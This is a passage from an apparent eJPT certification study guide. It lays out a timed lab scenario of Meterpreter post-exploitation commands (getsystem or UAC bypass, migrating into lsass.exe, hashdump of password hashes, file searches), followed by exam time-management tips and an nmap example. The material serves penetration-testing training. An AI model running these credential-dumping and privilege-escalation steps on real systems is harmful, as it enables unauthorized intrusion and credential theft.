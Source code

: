 #### **Scenario 3: Complete System Compromise with Evidence**
**Given:** System access achieved, need to prove complete compromise
**Your Job:** Extract sensitive data and document access
**Time Limit:** 5-8 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Ensure SYSTEM privileges (1 minute)
getuid
# If not SYSTEM, run getsystem or UAC bypass

# Step 2: Migrate to stable process (1 minute)
ps -S lsass.exe
migrate [lsass_PID]

# Step 3: Extract password hashes (2 minutes)
hashdump
# Document all hash values

# Step 4: Find target files (2-3 minutes)
cd /
dir
search -f flag.txt
search -f *.txt
cat [found_files]

# Step 5: Document findings (1 minute)
# Screenshot hash dump
# Save file contents
# Note system information
```

### **Time Management Strategy for eJPT:**

#### **Total Time Allocation (15-20 minutes per exploitation task):**
- **Discovery Phase:** 3-4 minutes maximum
- **Research Phase:** 2-3 minutes maximum  
- **Exploitation Phase:** 5-8 minutes maximum
- **Post-Exploitation:** 3-5 minutes maximum
- **Documentation:** 2 minutes maximum

#### **Quick Decision Points:**
- **If ping fails:** Try nmap -Pn, move to next target if still no response
- **If no exploits found:** Try different search terms, check for web applications
- **If Metasploit fails:** Try manual exploitation, different payloads
- **If privilege escalation fails:** Document current access level, continue with objectives

### **Common Mistakes That Cost Time:**

#### **Mistake 1: Over-scanning**
**Wrong Approach:**
```bash
nmap -A -sC -sV -O -p- target_ip  # This takes 10+ minutes
```
